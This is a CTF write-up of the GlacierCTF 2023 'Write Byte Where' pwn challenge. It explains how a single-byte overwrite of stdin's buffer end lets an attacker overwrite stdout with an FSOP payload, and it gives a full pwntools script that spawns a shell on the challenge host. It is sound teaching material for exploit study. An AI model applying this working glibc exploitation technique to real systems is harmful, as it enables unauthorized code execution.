





## Write Byte Where

was a pwn challenge from GlacierCTF 2023.

This is the only challenge I had time to do, as I was busy during this CTF.  The other challenges looked great too..

This challenge was a "**pwn with only one byte**" type of challenge, and it was a bit tricky.

------

### 1 - What it is about?

The challenge is pretty small, so here is the `main()` (and only) function:



+ The challenge disable buffering on `stdin`, `stderr`, and `stdout`with `setbuf()`
+ It open `/proc/self/maps` and dump it, so we know the actual mapping of the program and the libs. It even give us a stack address.
+ Then it ask for a 64bit address, and write a `char` (a single byte) to this address
+ after this, there is a sequence of: `getchar()`, `puts()`, `getchar()`, and `exit(0)`

The program has all protections on, except `canary`

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

------

### 2 - So what's next ?

The way I exploited it is a bit tricky, and discussing with the author, it looks like it's not the "intended way". (But hackers don't care about intended way no?)

> The program was using an Alpine linux libc: `glibc-2.38-2`, and the authors only provided the stripped version, and as it was an old version I could not find the debug symbols for it, so it was a bit painful to debug. I did use the `glibc-2.38-7` version for developing my exploit, which is the last version, and for which we can found the debug symbols. I had to adapt the offsets for the older version once my exploit worked.

As the buffering is disabled on `stdin`, `stderr`, and `stdout`, if we have a look to `_IO_2_1_stdin_`in memory:



We can see that there is a one byte buffer, that starts in this example at `0x7fb2a1131963` and finish at `0x7fb2a1131964`. That's the normal behavior of `stdin`when buffering is disabled. So only one byte read from `stdin`will be stored in this buffer. This buffer is in the middle of the `stdin`structure:



You can see the buffer in the picture above at address `0x7fb2a1131963`, and you can see that there is byte `0xa` (in red) stored in it. That's a carriage return ending a previous input.

But if we modify the `_IO_buf_end` entry of stdin, we can restore the buffering that was disabled. For example we can overwrite with our byte the LSB of  `_IO_buf_end` or even better the byte above the LSB to extend the buffer further in memory.

What will happen when a function will try to read from `stdin`, like `getchar()` for example, is that the data sent on stdin will be buffered in the buffer, and we will overwrite the last part of stdin, and further in memory up to `_IO_buf_end`.

`getchar()`will still return only one byte, but the additional data sent will be written in our new buffer, it will be buffered.

That is interesting because `stdout` is further in memory `0xce0` bytes after `stdin`, and so we will be able to overwrite `stdout` (and `stderr`which is on the way before  `stdout`).

We will just have to take care of restoring the end of `stdin` on the way. The zone between `stdin`and `stdout`will be filled with zeroes. 

For example if we overwrite the second lsb of `_IO_buf_end`, to extend the buffer up to after `stdout`then we send a long 'AAAAAAA....'  string as input to `getchar()`, here is the resulting `stdin`after:



You can see that `_IO_buf_end` as been extended to `0x7fb2a1132764`, and that our string has overwrite the rest of `stdin` structure...You got the idea.

so to resume the process lets look at the succession of functions that we will use and abuse:

```c
  scanf("%c", target);
  getchar();
  puts("Goodbye! (press  Enter  to exit)");
```

+ with the `scanf()` we will overwrite `_IO_buf_end` second LSB in `stdin`, to expand the buffer over `stdout`
+ with the `getchar()` we will send a payload that will be written over the end of  `stdin` up to the end of `stdout`, and we will write a classic FSOP over `stdout`to get code execution when a function will use `stdout` (see [https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/#3---the-fsop-way-targetting-stdout](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/#3---the-fsop-way-targetting-stdout))

+ `puts()` will try to output on `stdout`, that will execute our FSOP payload, that will execute `system(/bin/sh)`

And that's finish.. we got shell.



------

### 3 - The exploit.

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF("vuln_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "chall.glacierctf.com", "13374"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path], aslr=True)
# get various leaks, we only need libc actually.
context.log_level = 'info'
libcl = 0
line = p.recvuntil('\n')
parts = line.split(b'-')
prog = int(parts[0],16)
exe.address = prog
logleak('prog base', exe.address)
while True:
  line = p.recvuntil('\n')
  if ((b'libc.so.6' in line) and (libcl==0)):
    parts = line.split(b'-')
    libcl = int(parts[0],16)
    libc.address = libcl
    logbase()
    break
# get stack leak
stack = int(rcu('extra: ', '\n'),16)
logleak('stack', stack)

# calculate second LSB of address after stdout
val = ((libc.sym['_IO_2_1_stdout_']+0x300) & 0xff00)>>8
# overwrite _IO_buf_end second LSB in stdin
sla('Where: ',  str(libc.sym['_IO_2_1_stdin_']+0x41))
sa('What: ', p8(val))

# build our FSOP payload
# some constants
stdout_lock = libc.address + 0x240710   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x000000000014a870 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh'.ljust(8,b'\x00'))  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

# we restore end of stdin that is overwritten in the payload first, then stdout
# we will fill with zeroes in betweend (stderr will be erased, but that works...)
payload = flat({
  5: p64(libc.address+0x240720)+p64(0xffffffffffffffff)+p64(0)+p64(libc.address+0x23e9c0)+p64(0)*3+p64(0x00000000ffffffff)+p64(0)*2+p64(libc.sym['_IO_file_jumps']),
  0xc5d: bytes(fake),
}, filler=b'\x00')
# remote exploit need a pause before sending the payload, because of latency
if args.REMOTE:
  sleep(1)
p.send(payload)
#enjoy shell now
p.interactive()

```

*nobodyisnobody still hacking things.*
